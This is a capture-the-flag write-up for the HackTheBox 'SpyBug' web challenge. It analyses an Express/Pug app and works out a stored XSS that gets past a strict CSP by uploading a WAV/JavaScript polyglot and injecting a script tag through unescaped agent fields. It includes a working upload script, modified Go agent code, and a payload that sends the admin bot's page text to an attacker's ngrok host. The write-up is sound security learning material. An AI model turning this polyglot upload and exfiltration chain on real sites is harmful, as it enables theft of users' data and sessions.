


# SpyBug

## Challenge Overview

We are given a website like this:



We also have the source code of the web application in Node.js and the source code of an agent in Go.

## Source code analysis

The web application is built with Express JS. In index.js we can see a Content Security Policy (CSP) header and a function visitPanel that runs every minute:

```js
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
  res.setHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  res.setHeader("Pragma", "no-cache");
  res.setHeader("Expires", "0");
  next();
});

application.set("view engine", "pug");

application.use(genericRoutes);
application.use(panelRoutes);
application.use(agentRoutes);

application.listen(1337, "0.0.0.0", async () => {
  console.log(`Listening on port 1337`);
});

createAdmin();
setInterval(visitPanel, 60000);
```

The CSP is very strict, we can see some comments on it in a CSP evaluator:



The `script-src 'self'` field is the one that looks promising if we can upload files to the server.

This is the visitPanel function (in utils/adminbot.js):

```js
require("dotenv").config();

const puppeteer = require("puppeteer");

const browserOptions = {
  headless: true,
  executablePath: "/usr/bin/chromium-browser",
  args: [
    "--no-sandbox",
    "--disable-background-networking",
    "--disable-default-apps",
    "--disable-extensions",
    "--disable-gpu",
    "--disable-sync",
    "--disable-translate",
    "--hide-scrollbars",
    "--metrics-recording-only",
    "--mute-audio",
    "--no-first-run",
    "--safebrowsing-disable-auto-update",
    "--js-flags=--noexpose_wasm,--jitless",
  ],
};

exports.visitPanel = async () => {
  try {
    const browser = await puppeteer.launch(browserOptions);
    let context = await browser.createIncognitoBrowserContext();
    let page = await context.newPage();

    await page.goto("http://0.0.0.0:1337/", {
      waitUntil: "networkidle2",
      timeout: 5000,
    });

    await page.type("#username", "admin");
    await page.type("#password", process.env.ADMIN_SECRET);
    await page.click("#loginButton");

    await page.waitForTimeout(5000);
    await browser.close();
  } catch (e) {
    console.log(e);
  }
};
```

It runs a headless Chromium browser to visit his own panel (after entering credentials). Having a CSP and a bot that accesses a page using a browser means that the challenge must involve a client-side attack like Cross-Site Scripting (XSS).

Plus, looking at the routes for routes/panel.js, we see that admin will have the flag printed on screen:

```js
router.get("/panel", authUser, async (req, res) => {
  res.render("panel", {
    username:
      req.session.username === "admin"
        ? 'HTB{f4k3_fl4g_f0r_t3st1ng}'
        : req.session.username,
    agents: await getAgents(),
    recordings: await getRecordings(),
  });
});
```

The server uses pug as template renderer. This is views/panel.pug:

```pug
doctype html
head
  title Spybug | Panel
  include head.pug
body
  div.container.login.mt-5.mb-5
    div.row
      div.col-md-10
        h1
          i.las.la-satellite-dish
          | &nbsp;Spybug v1
      div.col-md-2.float-right
        a.btn.login-btn.mt-3(href="/panel/logout") Log-out
    hr 
    h2 #{"Welcome back " + username}
    hr
    h3
      i.las.la-laptop
      | &nbsp;Agents
    if agents.length > 0
      table.w-100
        thead
          tr
          th ID
          th Hostname
          th Platform
          th Arch
        tbody
          each agent in agents
            tr
              td= agent.identifier
              td !{agent.hostname}
              td !{agent.platform}
              td !{agent.arch}
    else
      h2 No agents

    hr
    h3
      i.las.la-play-circle
      | &nbsp;Recordings
    if recordings.length > 0
      table.w-100
        thead
          tr
          th Agent ID
          th Audio
        tbody
          each recording in recordings
            tr
              td= recording.agentId
              td
                audio(controls='')
                  source(src=recording.filepath)
    else
      h2 No recordings
```

Reading pug documentation we can determine that `!{agent.hostname}`, `!{agent.platform}`, `!{agent.arch}` won’t escape especial characters. Therefore, we will be able to inject HTML code and potentially perform XSS on the bot to read the flag from the DOM and send it back to a controlled server.

## File upload functionality

These are the routes available for an agent (routes/agents.js):

```js
const fs = require("fs");
const path = require("path");
const FileType = require("file-type");
const { v4: uuidv4 } = require("uuid");

const express = require("express");
const router = express.Router();

const multer = require("multer");

const {
  registerAgent,
  updateAgentDetails,
  createRecording,
} = require("./../utils/database");

const authAgent = require("../middleware/authagent");

const storage = multer.diskStorage({
  filename: (req, file, cb) => {
    cb(null, uuidv4());
  },
  destination: (req, file, cb) => {
    cb(null, "./uploads");
  },
});

const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
    ) {
      cb(null, true);
    } else {
      return cb(null, false);
    }
  },
});

router.get("/agents/register", async (req, res) => {
  res.status(200).json(await registerAgent());
});

router.get("/agents/check/:identifier/:token", authAgent, (req, res) => {
  res.sendStatus(200);
});

router.post(
  "/agents/details/:identifier/:token",
  authAgent,
  async (req, res) => {
    const { hostname, platform, arch } = req.body;
    if (!hostname || !platform || !arch) return res.sendStatus(400);
    await updateAgentDetails(req.params.identifier, hostname, platform, arch);
    res.sendStatus(200);
  }
);

router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(400);

    const filepath = path.join("./uploads/", req.file.filename);
    const fileInfo = await FileType.fromFile(filepath)

    try {
      if(fileInfo.ext != 'wav') {
        fs.unlinkSync(filepath);
        return res.sendStatus(400);
      }
      
      await createRecording(req.params.identifier, req.file.filename);
      res.send(req.file.filename);
    }
    catch {
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }
  }
);

module.exports = router;
```

## Agent analysis

Additionally, we are given an agent written in Go that performs these operations:

- Connect to the server and request credentials
- Log in using the received credentials
- Start recording and saving into a WAV file
- Upload the WAV file

The main function shows these flow:

```go
func main() {
        const configPath string = "/tmp/spybug.conf"
        const audioPath string = "rec.wav"
        const apiURL string = "http://127.0.0.1:1337"

        var apiConnection bool = checkConnection(apiURL)

        if apiConnection {
                var configFileExists bool = checkFile(configPath)

                if configFileExists {
                        var credentials []string = readFromConfigFile(configPath)
                        var credsValidated = checkAgent(apiURL, credentials[0], credentials[1])

                        if credsValidated {
                                updateDetails(apiURL, credentials[0], credentials[1])

                                for range time.NewTicker(30 * time.Second).C {
                                        recordingRoutine(apiURL, credentials[0], credentials[1], audioPath)
                                }
                        } else {
                                var newCredentials []string = registerAgent(apiURL)
                                writeToConfigFile(configPath, newCredentials[0], newCredentials[1])
                                main()
                        }
                } else {
                        var newCredentials []string = registerAgent(apiURL)
                        writeToConfigFile(configPath, newCredentials[0], newCredentials[1])
                        main()
                }
        } else {
                time.Sleep(30 * time.Second)
                main()
        }
}
```

The code is not supposed to be exploited. In fact, it looks like a helper script to try that CTF players use Go to solve the challenge.

## Exploitation

So, the idea is simple. We will use the agent program to create an agent and upload a malicious WAV file. This WAV file will contain the necessary characters to bypass multer’s filters and some JavaScript payload in order to perform XSS. Remember that the CSP allows `script 'self'`, so we can use a script tag setting as src the path to the WAV file (indicating `type="text/javascript"` just in case).

At the begining, I started modifying the agent’s code, but I didn’t manage to upload the malicious WAV file correctly (probably because the MIME type was set automatically by Go). I had the same problem using curl and an HTML form. Finally, I got it to work using Python (obviously):

```python
#!/usr/bin/env python3

import requests
import sys

host = sys.argv[1]

with open('spybug.conf') as f:
    creds = f.read().replace(':', '/')

with open('xss.wav') as f:
    wav = f.read()

r = requests.post(f'http://{host}/agents/upload/{creds}',
        # proxies={'http': 'http://127.0.0.1:8080'},
        files={'recording': ('xss.wav', wav, 'audio/wave')})

print(r.text)
```

As can be seen in the comment, I debugged this part using Burp Suite and the Docker container to see the logs of the Express JS server.

The malicious WAV file is xss.wav, with the characters to bypass the RegEx an a simple XSS payload inside an image URL:

```js
RIFFAAAAWAVE = 0;
var i = new Image()
i.src = 'http://abcd-12-34-56-78.ngrok.io/' + btoa(document.querySelector('h2').textContent)
document.write(i)
```

To find a payload that worked, I ran the server on my host machine (without Docker) and set headless to false in the puppeteer configuration in order to watch the bot interacting with the website in real-time. Moreover, the flag appears printed in the HTML code, inside an h2 tag, that’s why I use document.querySelector to find it and send it using Base64 encoding (btoa).

Notice that I was using ngrok to expose my local server to the internet:

```sh
$ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
$ ngrok http 8000
ngrok

Add OAuth and webhook security to your ngrok (its free!): https://ngrok.com/free

Session Status                online
Account                       rama (Plan: Free)
Version                       3.2.1
Region                        Indonesia (id)
Latency                       -
Web Interface                 http://127.0.0.1:4040
Forwarding                    https://abcd-12-34-56-78.ngrok.io -> http://localhost:8000

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Still, I used the Go script to request credentials and save them into spybug.conf and to modify one of the vulnerable parameters (hostname, platform or arch) to have the HTML code with the script tag pointing to the WAV file. These are the functions I modified:

```go
// ...

func updateDetails(apiURL string, id string, token string) {
        var updateURL string = apiURL + "/agents/details/" + id + "/" + token

        hostname, _ := os.Hostname()
        var platform string = runtime.GOOS
        var arch string = runtime.GOARCH

        hostname = `<script src="/uploads/` + os.Args[2] + `" type="text/javascript"></script>`

        requestBody, _ := json.Marshal(map[string]string{
                "hostname": hostname,
                "platform": platform,
                "arch":     arch,
        })

        client := &http.Client{}
        req, _ := http.NewRequest("POST", updateURL, bytes.NewReader(requestBody))

        req.Header.Set("Content-Type", "application/json")
        resp, err := client.Do(req)

        if err == nil {
                defer resp.Body.Close()
        }
}

// ...

func main() {
        const configPath string = "spybug.conf"
        const audioPath string = "xss.wav"  // "rec.wav"
        apiURL := "http://" + os.Args[1]

        var apiConnection bool = checkConnection(apiURL)

        if apiConnection {
                var configFileExists bool = checkFile(configPath)

                if configFileExists {
                        var credentials []string = readFromConfigFile(configPath)
                        var credsValidated = checkAgent(apiURL, credentials[0], credentials[1])

                        if credsValidated {
                                updateDetails(apiURL, credentials[0], credentials[1])

                                /* for range time.NewTicker(30 * time.Second).C {
                                        recordingRoutine(apiURL, credentials[0], credentials[1], audioPath)
                                } */
                        } else {
                                var newCredentials []string = registerAgent(apiURL)
                                writeToConfigFile(configPath, newCredentials[0], newCredentials[1])
                                main()
                        }
                } else {
                        var newCredentials []string = registerAgent(apiURL)
                        writeToConfigFile(configPath, newCredentials[0], newCredentials[1])
                        main()
                }
        } else {
                time.Sleep(30 * time.Second)
                main()
        }
}
```

I was setting the remote server host as first command-line argument and the UUID of the uploaded file as second argument.

## Performing the attack

This is the approach:

```sh
$ go run spybug-agent.go 134.209.180.248:32387 asdf
Connection OK
Config file exists
Creating creds
Connection OK
Config file exists
Creds OK

$ cat spybug.conf
d219ec7d-6bb7-4670-95eb-768e40d5d399:743911a0-90b2-454f-bbdf-e780ae56eabc

$ python3 send_file.py 134.209.180.248:32387
f168f807-2b13-4406-9973-bcb2b6b699b5

$ go run spybug-agent.go 134.209.180.248:32387 f168f807-2b13-4406-9973-bcb2b6b699b5
Connection OK
Config file exists
Creds OK
```

After a bit of time, we receive a hit on our server:

```sh
$ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:127.0.0.1 - - [] code 404, message File not found
::ffff:127.0.0.1 - - [] "GET /V2VsY29tZSBiYWNrIEhUQnt3MzFyZF93NHZfcDBseWdsb3RfeHNzX3MwcmNlcnl9 HTTP/1.1" 404 -
```

## Flag

We just need to decode this string from Base64 and done:

```sh
$ echo V2VsY29tZSBiYWNrIEhUQnt3MzFyZF93NHZfcDBseWdsb3RfeHNzX3MwcmNlcnl9 | base64 -d
Welcome back HTB{w31rd_w4v_p0lyglot_xss_s0rcery}
```
